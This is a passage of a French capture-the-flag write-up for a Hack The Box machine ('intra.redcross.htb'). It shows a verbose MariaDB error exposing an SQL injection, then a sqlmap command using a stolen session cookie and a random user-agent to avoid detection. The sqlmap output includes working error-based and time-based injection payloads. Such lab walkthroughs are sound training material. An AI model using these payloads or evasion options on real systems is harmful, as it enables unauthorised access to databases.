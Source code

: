 Ta mère elle va dumper
----------------------

Une fois connecté on se retrouve sur ce qui s'apparente plus ou moins à une boîte de messagerie avec un message rappelant que notre compte est en attente de création.  

La page contient une zone de texte avec un label *UserID* et un bouton *filter*. Evidemment tout bon hacker qui se respecte s'empresse de rentrer apostrophe et guillemet pour voir comment le script répond et ça paye aussitôt :  

> DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '5' or dest like '"'') LIMIT 10' at line 1

On est tout de suite plus dans notre élément là :)  

Faisons chauffer sqlmap ! Bien sûr il faut passer le cookie de session que l'on aura extrait depuis notre navigateur (via les dev tools ou extension dédiée).  

Premier essai et aucun résultat :( Le message d'erreur est pourtant bien verbeux donc on voit pas trop comment il peut passer à côté.  

La première intuition est d'utiliser un user-agent aléatoire au lieu de celui clairement identifiable de l'outil :  

```plain
$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" -p o --cookie="PHPSESSID=mreqtebbk20fa24ppak7rj3k81"  --random-agent --keep-alive --delay=2 --current-user

[*] starting at 15:25:51

[15:25:51] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.0.1) Gecko/2008072610 Firefox/2.0.0.12' from file '/usr/share/sqlmap/txt/user-agents.txt'
[15:25:52] [INFO] resuming back-end DBMS 'mysql'
[15:25:52] [INFO] testing connection to the target URL
[15:25:54] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: o (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=1') AND (SELECT 6275 FROM(SELECT COUNT(*),CONCAT(0x7170787671,(SELECT (ELT(6275=6275,1))),0x7170787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- NyaP&page=app

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: o=1') AND SLEEP(5)-- DUKy&page=app
---
[15:25:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[15:25:54] [INFO] fetching current user
[15:26:05] [INFO] retrieved: dbcross@localhost
current user:    'dbcross@localhost'
[15:26:05] [INFO] fetched data logged to text files under '/home/devloop/.sqlmap/output/intra.redcross.htb'

[*] shutting down at 15:26:05
```
